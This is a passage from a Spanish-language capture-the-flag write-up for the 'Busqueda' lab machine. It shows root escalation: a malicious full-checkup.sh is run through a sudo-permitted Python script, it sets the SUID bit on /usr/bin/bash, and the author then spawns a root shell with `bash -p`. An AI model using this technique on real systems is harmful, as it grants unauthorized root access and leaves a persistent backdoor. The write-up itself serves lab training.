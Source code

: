 ```
-rwx--x--x 1 root root  586 Dec 24 21:23 check-ports.py
-rwx--x--x 1 root root  857 Dec 24 21:23 full-checkup.sh
drwxr-x--- 8 root root 4096 Apr  3 15:04 .git
-rwx--x--x 1 root root 3346 Dec 24 21:23 install-flask.sh
-rwx--x--x 1 root root 1903 Dec 24 21:23 system-checkup.py
svc@busqueda:/opt/scripts$ cd
svc@busqueda:~$ vi full-checkup.sh
svc@busqueda:~$ /usr/bin/sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
svc@busqueda:~$ chmod +x full-checkup.sh 
svc@busqueda:~$ /usr/bin/sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!

```
Como se puede apreciar, es necesario dotar de los permisos de ejecución a nuestro script, sino no funcionará.
En mi caso me es más sencillo hacer SUID `/usr/bin/bash` e impersonarme como root con `bash -p`, entonces lo que contiene mi archivo malicioso sería simplemente una sentencia tal que esta: `chmod u+s /usr/bin/bash`.
Y aquí está el listado de binarios SUID en el sistema, y como he mencionado antes nos metemos como root y sacamos la flag de root dando por terminada la máquina.
```
svc@busqueda:~$ find / -perm -4000 2>/dev/null
/usr/libexec/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/umount
/usr/bin/fusermount3
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/bash
/usr/bin/chsh
/snap/core20/1822/usr/bin/chfn
/snap/core20/1822/usr/bin/chsh
/snap/core20/1822/usr/bin/gpasswd
/snap/core20/1822/usr/bin/mount
/snap/core20/1822/usr/bin/newgrp
/snap/core20/1822/usr/bin/passwd
/snap/core20/1822/usr/bin/su
/snap/core20/1822/usr/bin/sudo
/snap/core20/1822/usr/bin/umount
/snap/core20/1822/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1822/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
svc@busqueda:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/&&ls -la
total 60
drwx------  9 root root 4096 Apr  3 16:01 .
drwxr-xr-x 19 root root 4096 Mar  1 10:46 ..
lrwxrwxrwx  1 root root    9 Feb 20 12:09 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Mar  1 10:46 .cache
drwx------  3 root root 4096 Mar  1 10:46 .config
-rw-r-----  1 root root  430 Apr  3 15:13 ecosystem.config.js
```